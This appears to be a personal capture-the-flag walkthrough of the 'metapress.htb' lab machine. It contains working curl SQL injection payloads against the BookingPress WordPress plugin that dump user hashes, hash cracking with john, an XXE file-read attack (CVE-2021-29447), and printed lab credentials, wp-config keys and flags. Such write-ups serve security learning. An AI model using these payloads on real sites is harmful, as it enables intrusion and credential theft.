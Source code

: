 there is definitely an _admin_ user, from the sitemap of users, and it being the only author on the page.
Thinking this can be used to log into the wp-login page?

wordpress version = 5.6.2
twenty twenty-one version = 1.1 (theme)
booking press version = 1.0.10

gobuster further scans:
wp-includes
wp-content
wp-admin


robots.txt:
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://metapress.htb/wp-sitemap.xml

the payload 
```
metapress.htb/wp-admin/admin-ajax.php\?action=umm_switch_action\&umm_sub_action=[umm_delete_user_meta|umm_edit_user_meta]&umm_user=SLEEP(5)
```
made the page load for 5 seconds, so should be onto something for this.


However, looking further into the source code of the events booking page, I found the _bookingpress plugin, version 1.0.10. This is apparently vulnerable to an [unauthenticated sqli](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)



line 697 of the events booking page, had the wpnonce:
```
								var postData = { action:'bookingpress_generate_spam_captcha', _wpnonce:'1a3cde3753' };
```
so I assumed that from this, with it it was possible to perhaps do the exploit without the first steps requiring being logged in. 

```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1a3cde3753&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,table_schema,table_name,6 from information_schema.tables-- -' 
```

Interesting tables:
FILES
GLOBAL_STATUS
KEYWORDS
GLOBAL_VARIABLES
COLUMNS
PARAMETERS
PARTITIONS
PLUGINS
PROCESSLIST
PROFILING
REFERENTIAL_CONSTRAINTS
SCHEMATA
SCHEMA_PRIVILEGES
SESSION_STATUS
SESSION_VARIABLES
STATISTICS
SQL_FUNCTIONS
SYSTEM_VARIABLES
TABLES
TABLESPACES
TABLE_CONSTRAINTS
USER_PRIVILEGES
INNODB_SYS_DATAFILES
user_variables
INNODB_FT_DELETED
__blog__ 
	wp_options
	wp_term_taxonomy
	wp_bookingpress_servicesmeta
	wp_ommentmeta
	wp_users !!!!
	wp_bookingpress_customers_meta
	wp_bookingpress_settings
	wp_bookingpress_appointment_bookings
	wp_bookingpress_debug_payment_log
	wp_bookingpress_services
	wp_termmeta
	wp_links
	wp_bookingpress_entries
	wp_bookingpress_customers
	wp_usermeta
	

user_login
user_pass !!
user_nicename
user_email

user_activation_key
bookingpress_customersmeta_key
bookingpress_staff_member_id
bookingpress_wpuser_id
bookingpress_user_login
bookingpress_user_type
user_id
	
the command 
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1a3cde3753&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,user_nicename,1,user_email,3,4,5,6 from blog.wp_users-- -'
```
gave 2 users: _admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV._ and _manager:$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70_
Those both look like 'uncrackable hashes'. SO maybe changing the user_pass is possible?	
	

with `john -w=/usr/share/wordlists/rockyou.txt hashes.txt` I got the result _partylikearockstar_.

Trying to log into wordpress with it, it did not match the admin account, but worked for manager!
So using the credentials _manager:partylikearockstar_ I got access to the wp page.

![[Screenshot 2022-12-05 at 15.45.50.png]]
There is a _leira-roles_ plugin version 1.1.8.0?
	
	
WP version 5.6.2 exploits:
https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
I found one [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
following ^ report with the files evil.dtd and payload.wav + setting up a python http server I got the contents of /etc/passwd and wp-config.php.

*(https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)*

```
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );
```
+ ftp user:pass: _metapress.htb:9NYS_ii@FyL_p5M2NvJ_. And we got access!

	
in the _send_email.php_ file I found the credentials _jnelson@metapress.htb:Cb4_JmWM8zUZWMu@Ys_

Luckily, he reuses his password so we got ssh access!!! and the flag _82a62ac9c5ecd52bbecb68a7099e27f8_


in the pass file there were the creentials _root@metapress.htb:p7qfAZt4_A1xo_0x_

--> of course this would have been too easy, so ssh connection did not work.


Reading the root.pass file, there is a PGP key:
```
-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----
```


The /home/jnelson/.passpie/.keys contained both the public and private keys of _jnelson_, so I assume these could now be used to decrypt the pgp message?

For this next bit, I figured out that the private key had to be decrypted. This could be done using john and gave the passkey: _blink182_

Using this, I could now export the passwords from the passpie with the commands:
`touch pass`
`passpie export pass`

HOWEVER, the password in this file was the one I already had (possibly already left on the system by a previous user), but I HAD JUST ATTEMPTED TO CONNEC TO THE ROOT USER IN THE WRONG WAY. It was not possible to SSH in from 'remote', I had to just `su root`...

Root flag: bf1c98dce284382958accdc896e9e457


